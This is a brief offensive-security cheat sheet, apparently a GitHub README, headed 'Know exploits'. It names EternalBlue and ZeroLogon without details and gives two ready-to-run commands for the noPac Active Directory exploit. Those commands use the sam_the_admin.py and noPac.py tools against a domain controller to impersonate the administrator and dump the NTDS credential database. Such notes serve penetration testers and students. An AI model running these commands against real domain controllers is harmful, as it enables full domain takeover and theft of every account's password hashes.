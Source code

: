 # Know exploits
EternalBlue (CVE-2017-0144):

ZeroLogon (CVE-2020-1472):

noPac (CVE-2021-42278 & CVE-2021-42287):
```bash
python3 sam_the_admin.py -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>'
python3 noPac.py -use-ldap -dc-ip <IP> '<DOMAIN>/<USER>:<PASS>' --impersonate 'administrator' -dump # priv esc & dump NTDS
```
